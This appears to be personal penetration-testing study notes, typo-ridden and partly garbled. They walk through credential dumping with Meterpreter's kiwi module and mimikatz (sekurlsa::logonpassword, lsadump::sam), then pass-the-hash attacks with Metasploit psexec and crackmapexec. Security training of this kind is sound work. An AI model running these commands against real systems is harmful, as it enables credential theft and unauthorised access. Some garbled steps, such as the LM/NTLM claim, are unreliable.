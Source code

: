           
        
          
        
          
        
          
        
    
      
    
    - ==_Dumping Hashes With Mimikatz_==
        
        1. we need to gain access to the target system first
        2. now let’s find the lsass process ⇒ `pgrep lsass` , we will see the process number is 788
        3. now let’s use the Kiwi model to dump the crad ⇒ `load kiwi` && `?` < to see the help menu>
        4. now after u dump the all crad , u might see the ntlm hash , and the syskey , and all info that may be useful
        5. now let’s use Mimikatz tool ⇒ first we need to upload the mimikatz.exe in target system ⇒ `upload /usr/share/windows-resources/mimikatz.exe ⇒ mimikatz.exe`
        6. now open shell then execute the mimikatz.exe , then first we need to check the privilege we have ⇒ `privilege::debug` , if the response 20 ok we have the right privilege
        7. lsadump::sam ⇒ to dump the lsa cache
        8. one of the important thing we can do with mimikatz is ( every time the user login in the system the memory store the password in clear text so using mimikatz u can dump that ) ⇒ `sekurlsa::logonpassword`
        
        - ==_now let’s Pass-The-Hash Attacks_==
        
        > pass the hash attack ⇒ is exploitation technique that involves capturing or harvesting NTLM hashes or clear-text password and utilizing them to auth with the target system
        
        1. now after we get the hash form the prev
        2. now first u need the Lm hash to optain the ntlm hash , u can get the lm hash from the `hushdump` in target system
        3. now use this in msfconsole ⇒ `use exploit/windows/smb/psxec` && `set RHost <target ip>` && `set SMBUser Administrater` && `set SMBpass < the hash we copy it >` && `set target <target u want>`
        4. we can use crackmapexec ⇒ `crackmapexec smb <target ip> -u Administrater -H “ <Ntlm hash>" -x "<command u want to run>"`
        
          
        
          
        
          
        
    
      
    
      
    
    # ==Linux== ==**vulnerability**==
    
      
    
    > Linux ⇒ is Free and open source operating system ,is commonly referred to GNU/Linux
    
    > GNU Tool Kit ⇒ like ls , cd , rm …. etc
    
    > Telnet on port 23 , SSh on port 22 , The defense about them that the SSh support authntacaion ( username & password and key bassed )
    
    > The linux disruption based on what do u want , as a example we have a _==kali linux is designed for penetration tester and red teamer==_ , _==Ubentu is designed for any one want to use linux==_ ..etc
    